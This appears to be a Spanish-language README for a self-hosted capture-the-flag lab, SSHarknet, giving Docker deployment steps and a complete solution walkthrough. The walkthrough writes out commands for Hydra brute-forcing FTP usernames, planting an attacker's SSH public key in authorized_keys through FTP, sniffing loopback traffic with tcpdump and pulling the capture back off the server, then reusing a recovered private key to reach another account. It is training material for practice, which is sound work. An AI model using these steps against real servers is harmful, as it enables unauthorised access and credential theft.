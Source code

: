 # SSHarknet

- [1. Instalación y despliegue](#1-instalación-y-despliegue)
- [1.1. Despliegue automático](#11-despliegue-automático)
- [1.2. Despliegue manual](#11-despliegue-manal)
- [2. Descripción de ejercicio](#2-descripción-de-ejercicio)
- [3. Solución de ejercicio](#3-solución-de-ejercicio)
- [3.1. Identificación de servicio FTP](#31-identificación-de-servicio-ftp)
- [3.2. Crackeo de credenciales FTP](#32-crackeo-de-credenciales-ftp)
- [3.3. Conexión al servidor](#33-conexión-al-servidor)
- [3.4. Búsqueda de la flag](#34-búsqueda-de-la-flag)
- [3.5. Interpretación de tareas programadas](#35-interpretación-de-tareas-programadas)
- [3.6. Intercepción de tráfico interno](#36-intercepción-de-tráfico-interno)
- [3.7. Análisis de tráfico](#37-análisis-de-tráfico)
- [3.8. Descompresión de archivo](#38-descomprensión-de-archivo)
- [3.9. Lectura de la flag](#39-lectura-de-la-flag)

## 1. Instalación y despliegue

Para desplegar el laboratorio es neceario tener [Docker](https://docs.docker.com/get-docker/) instalado. Una vez instalado podremos descargar la imagen o construirla.

### 1.1. Despliegue automático

Para desplegar el contenedor automáticamente bastará con ejecutar el siguiente comando:

```bash
docker run -d --name ssharknet -p [HostPort1]:21 -p [HostPort2]:22 -p [HostPortRange]:40000-40010 kradbyte/ssharknet:latest
```

Asegúrate de reemplazar `HostPor1`, `HostPort2` y `HostPortRange` con los puertos para los servicios FTP, SSH y FTP Passive, respectivamente, en caso de querer utilizar puertos personalizados.

### 1.2. Despliegue manual

Para desplegar el contenedor manualmente primero deberemos clonar el repositorio y construir la imagen:

```bash
git clone https://github.com/oppaisdf/elemental-labs.git
docker build -t kradbyte/ssharknet:latest elementals-labs/4-SSHarknet
```

Una vez tengamos la imagen construida podremos desplegar el contenedor:

```bash
docker run -d --name ssharknet -p [HostPort1]:21 -p [HostPort2]:22 -p [HostPortRange]:40000-40010 kradbyte/ssharknet:latest
```

Asegúrate de reemplazar `HostPor1`, `HostPort2` y `HostPortRange` con los puertos para los servicios FTP, SSH y FTP Passive, respectivamente, en caso de querer utilizar puertos personalizados.

## 2. Descripción de ejercicio

Accidentalmente eliminaste el archivo “flag” de tu ordenador, y aunque lo buscaste en la papelera, no lo encontraste. Sabes que se realizan respaldos en el servidor periódicamente, así que es probable que encuentres tu archivo allí. Durante el almuerzo, escuchaste por casualidad que la contraseña del servidor fue cambiada a “winter”, lo que te da la oportunidad de acceder al servidor y buscar tu archivo sin que nadie se entere.

*Target*
Recuperar el archivo “flag” que perdiste.

*Steps*
1. Ingresa al servidor utilizando las credenciales disponibles.
2. Busca el archivo perdido.
3. Verifica las tareas programadas de respaldos.
4. Intercepta y descifra los paquetes de red.
5. Escala tus privilegios.
6. Recupera el archivo “flag”.

*Grants*
1. Los servicios del servidor operan en un rango de puertos entre 2000 y 2300.
2. Una vez interceptado el tráfico del servidor, filtra por HTTP y examina los archivos adjuntos en las solicitudes.

*Tools*
Nmap, Hydra, FTP/curl, SSH, tcpdump, WireShark.

## 3. Solución de ejercicio

### 3.1. Identificación de servicio FTP

Si se configuraron los puertos para que el servicio FTP corriera por un puerto distinto al 21, se debe utilizar alguna herramienta de escaneo para descubrir dicho servicio.

```bash
nmap -sn 192.168.0.0/24
```

### 3.2. Crackeo de credenciales FTP

Una vez hayamos ubicado el servicio FTP, en la descripción se menciona que podemos subir un archivo al sevidor, pero primero deberemos descubrir el usuario. Para eso podemos utilizar herramientas como *Hydra*, que nos ayudarán a descubrir las credenciales. Podemos utilizar algún diccionario de [SecList](https://github.com/danielmiessler/SecLists/blob/master/Usernames/cirt-default-usernames.txt).

```bash
hydra -l /ruta/a/tu/diccionario.txt -p winter ftp://ServerIP:ServerPort
```

No olvides reemplazar `ServerIP` y `ServerPort` con la IP y el puerto del servidor por donde corre el servicio FTP, así como la ruta de tu diccionario.

### 3.3. Conexión al servidor

Si ingresamos al servidor con FTP notaremos que podremos inyectar un archivo en la carpeta de usuario `.ssh`, por lo que podremos inyectar nuestras propias llaves SSH para conectarnos remotamente. Para ello deberemos generar nuestras llaves SSH en nuestro host:

```bash
ssh-keygen -t rsa -b 4096 -f key -N ""
```

Una vez tengamos nuestras llaves creadas bastara con enviar la llave pública al servidor:

```bash
curl -T key.pub ftp://User:winter@ServerIP:ServerPort/.ssh/authorized_keys
```

No olvides reemplazar `User` con el usuario que hayas encontrado, así como como `ServerIP` y `ServerPort` con la IP del servidor y el puerto donde corre FTP en caso se haya especificado algún otro distinto al 21 al momento de lanzar el contenedor.
Una vez hayamos enviado la llave pública podremos conectarnos por SSH:

```bash
chmod 600 key
ssh -p ServerPort -i key User@ServerIP
```

No olvides reemplazar `ServerPort` y `ServerIP` por la IP del servidor y el puerto por el que corre SSH.

### 3.4. Búsqueda de la flag

Cuando hayamos ganado acceso al servidor podremos buscar el archivo que buscamos:

```bash
find / -name \*flag\* 2>/dev/null
```

Al encontrar el archivo podremos intentar leerlo, pero al verificar sus persmisos notaremos que solo es accesible para otro usuario, por lo que deberemos buscar una forma de escalar privilegios.

### 3.5. Interpretación de tareas programadas

Si navegamos hasta las tareas cron notaremos que hay ciertas tareas realizadas por otros usuarios, como un servidor HTTP o un backup. 
Al encontrar un servicio HTTP podríamos intentar capturar el tráfico interno de la red para ver qué podemos encontrar al respecto.

### 3.6. Intercepción de tráfico interno

Para capturar el tráfico interno utilizaremos tcpdump con la interfaz *loocback*.

```bash
tcpdump -i lo -w trafic.pcap
```

Guardaremos el tráfico en un archivo para analizarlo posteriormente, porque al ver el tráfico en tiempo real no podremos manipular los paquetes.
Una vez hayamos interceptado el tráfico durante al menos cinco minutos verificaremos que el archivo sí tenga información, de lo contrario capturaremos nuevamente el tráfico.

### 3.7. Análisis de tráfico

Cuando tengamos el tráfico interceptado analizaremos dicha captura con WireShark, pero primero deberemos pasar el archivo a nuestro host, por lo que en nuestro host ejecutaremos:

```bash
curl -o data.pcap ftp://User:winter@ServerIP:ServerPort/trafic.pcap
```

Reemplaza `User` por el usuario encontrado en etapas anteriores, así como el `ServerIP` y `ServerPort` con la IP del servidor y el puerto por el que corre FTP.
Cuando hayamos descargado el archivo podremos analizarlo con WireShark. Una vez abierto el archivo del tráfico que capturamos, deberemos filtrar por HTTP y entre todas las solicitudes que aparezcan deberemos inspeccionar para ver qué se tramita.

### 3.8. Descompresión de archivo

Entre los paquetes encontraremos una petición de un archivo. Dicho archivo contiene un bloque de cadenas que, al analizar detenidamente, nos daremos cuenta que se trata de un archivo comprimido en formato hexadecimal en columnas. Deberemos copiar todas las líneas del archivo y guardarlas en un nuevo archivo, para convertir esas cadenas en el archivo comprimido. Una vez tengamos el archivo podremos convertir esas cadenas en el archivo comprimido:

```bash
xxd -p -r ArchivoEncontradoEnCaptura.txt > file.tar.gz
```

Al tener el archivo comprimido lo podremos descomprimir de forma normal:

```bash
tar -xzf fil.tar.gz
```

### 3.9. Lectura de la flag

Al tener el archivo descomprimido notaremos que dicho archivo contiene una llave privada, por lo que al intentar conectarnos a otros usuarios llegaremos a conectarnos al usuario que tiene permisos de lectura de nuestro archivo flag.
